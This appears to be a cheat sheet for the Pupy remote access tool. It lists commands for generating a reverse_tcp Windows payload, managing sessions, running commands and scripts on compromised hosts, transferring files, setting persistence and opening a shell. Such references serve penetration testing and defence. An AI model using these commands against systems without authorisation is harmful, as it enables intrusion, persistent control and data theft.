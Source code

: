 Here’s an overview of **Pupy**, a post-exploitation tool used for remote administration and command execution on compromised systems. Pupy is known for its flexibility and ability to operate across different platforms including Windows, Linux, and macOS.

### **Pupy**

**Pupy** is a remote access tool (RAT) designed to provide persistent access to compromised systems and perform various post-exploitation activities. It supports multiple platforms and provides features for managing and controlling compromised hosts.

#### **Common Commands and Options**

1. **Start Pupy Server:**
   - **Description:** Start the Pupy server to listen for incoming connections from clients.
   - **Command:**
     ```bash
     pupysh
     ```
   - **Example:**
     ```bash
     pupysh
     ```
   - **Explanation:**
     - Launches the Pupy server interface.

2. **Generate Pupy Payload:**
   - **Description:** Create a Pupy payload to be delivered to the target system.
   - **Command:**
     ```bash
     pupygen --arch <architecture> --platform <platform> --payload <payload_type> --out <output_file>
     ```
   - **Example:**
     ```bash
     pupygen --arch x64 --platform windows --payload reverse_tcp --out payload.exe
     ```
   - **Explanation:**
     - Generates a payload for a specified architecture and platform, saving it to an output file.

3. **Connect to a Pupy Session:**
   - **Description:** Connect to an active Pupy session.
   - **Command:**
     ```bash
     connect <session_id>
     ```
   - **Example:**
     ```bash
     connect 1
     ```
   - **Explanation:**
     - Connects to the session with ID `1`.

4. **List Active Sessions:**
   - **Description:** Display all active Pupy sessions.
   - **Command:**
     ```bash
     sessions
     ```
   - **Example:**
     ```bash
     sessions
     ```
   - **Explanation:**
     - Lists all currently active sessions.

5. **Execute Commands:**
   - **Description:** Run commands on the target system.
   - **Command:**
     ```bash
     exec <command>
     ```
   - **Example:**
     ```bash
     exec whoami
     exec ls -la
     ```
   - **Explanation:**
     - Executes `whoami` or `ls -la` on the target system.

6. **Upload/Download Files:**
   - **Description:** Transfer files between the local and target systems.
   - **Commands:**
     - **Upload File:**
       ```bash
       upload <local_path> <remote_path>
       ```
     - **Download File:**
       ```bash
       download <remote_path> <local_path>
       ```
   - **Example:**
     - **Upload:**
       ```bash
       upload ./localfile.txt /tmp/remote.txt
       ```
     - **Download:**
       ```bash
       download /tmp/remote.txt ./localfile.txt
       ```
   - **Explanation:**
     - Uploads or downloads files between local and remote systems.

7. **Manage Persistence:**
   - **Description:** Set up persistence mechanisms on the compromised system.
   - **Command:**
     ```bash
     persistence <method>
     ```
   - **Example:**
     ```bash
     persistence autorun
     ```
   - **Explanation:**
     - Configures persistence using methods like autorun.

8. **Execute Remote Code:**
   - **Description:** Execute code remotely on the target system.
   - **Command:**
     ```bash
     run <script>
     ```
   - **Example:**
     ```bash
     run ./script.py
     ```
   - **Explanation:**
     - Executes a specified script on the remote system.

9. **Retrieve System Information:**
   - **Description:** Get system information from the target.
   - **Command:**
     ```bash
     sysinfo
     ```
   - **Example:**
     ```bash
     sysinfo
     ```
   - **Explanation:**
     - Retrieves information about the target system, such as OS version and architecture.

10. **Interact with Shell:**
    - **Description:** Open an interactive shell on the target system.
    - **Command:**
      ```bash
      shell
      ```
    - **Example:**
      ```bash
      shell
      ```
    - **Explanation:**
      - Opens an interactive shell for direct command input on the target system.

### **Summary of Pupy Commands**

| **Command**                  | **Description**                                      | **Example**                                     |
|------------------------------|------------------------------------------------------|-------------------------------------------------|
| `pupysh`                     | Start the Pupy server                                | `pupysh`                                        |
| `pupygen --arch <arch> --platform <platform> --payload <payload> --out <file>` | Generate a Pupy payload                    | `pupygen --arch x64 --platform windows --payload reverse_tcp --out payload.exe` |
| `connect <session_id>`       | Connect to a specific session                       | `connect 1`                                    |
| `sessions`                   | List all active sessions                            | `sessions`                                      |
| `exec <command>`             | Execute a command on the target system              | `exec whoami`                                   |
| `upload <local_path> <remote_path>` | Upload a file to the target system             | `upload ./localfile.txt /tmp/remote.txt`        |
| `download <remote_path> <local_path>` | Download a file from the target system          | `download /tmp/remote.txt ./localfile.txt`      |
| `persistence <method>`       | Set up persistence mechanisms                       | `persistence autorun`                           |
| `run <script>`               | Execute a script remotely                           | `run ./script.py`                              |
| `sysinfo`                    | Retrieve system information                         | `sysinfo`                                       |
| `shell`                      | Open an interactive shell                           | `shell`                                         |

Pupy is a versatile post-exploitation framework that allows for comprehensive remote control, management, and exploitation of compromised systems across multiple platforms.